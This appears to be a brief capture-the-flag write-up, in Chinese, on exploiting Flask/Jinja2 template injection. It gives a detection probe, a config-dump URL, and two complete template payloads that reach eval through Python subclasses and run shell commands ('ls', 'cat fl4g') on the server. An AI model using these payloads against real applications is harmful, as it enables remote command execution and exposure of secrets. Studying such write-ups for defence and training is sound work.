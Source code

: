 # python_Flask_template_injection
## 漏洞检测
```
http://X.X.X.X:33006/{{6+6}} 
```
## {{ config.items() }}可以查看服务器的配置信息
```
http://X.X.X.X:33006/{{ config.items() }} 
```
## 出现配置信息payload：
```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}   
  {% if b.__class__ == {}.__class__ %}         //遍历基类 找到eval函数
    {% if 'eval' in b.keys() %}    //找到了
      {{ b['eval']('__import__("os").popen("ls").read()') }}  //导入cmd 执行popen里的命令 read读出数据
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```
## 将ls命令改为 cat fl4g即可读取fl4g的内容，payload如下:
```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}  
  {% if b.__class__ == {}.__class__ %}         //遍历基类 找到eval函数
    {% if 'eval' in b.keys() %}    //找到了
      {{ b['eval']('__import__("os").popen("cat fl4g").read()') }} 
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```
